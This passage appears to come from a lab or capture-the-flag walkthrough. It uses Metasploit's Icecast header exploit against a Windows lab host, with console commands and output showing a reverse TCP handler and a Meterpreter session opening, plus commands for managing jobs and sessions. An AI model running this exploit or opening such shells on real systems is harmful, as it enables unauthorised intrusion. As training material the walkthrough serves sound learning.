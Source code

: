 `No answer needed`

12. Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.

```
msf5 exploit(windows/http/icecast_header) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.8.106.222:4444 
msf5 exploit(windows/http/icecast_header) > [*] Sending stage (176195 bytes) to 10.10.223.155
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.223.155:49293) at 2020-09-11 05:16:03 -0400
msf5 exploit(windows/http/icecast_header) > 
```

`No answer needed`

13. Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

```
msf5 exploit(windows/http/icecast_header) > jobs

Jobs
====

No active jobs.
```

`No answer needed`

14. After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

```
msf5 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.8.106.222:4444 -> 10.10.223.155:49293 (10.10.223.155)
```

```
msf5 exploit(windows/http/icecast_header) > sessions -i 1
[*] Starting interaction with 1...
```

`No answer needed`

## [Task 6] We're in, now what? 

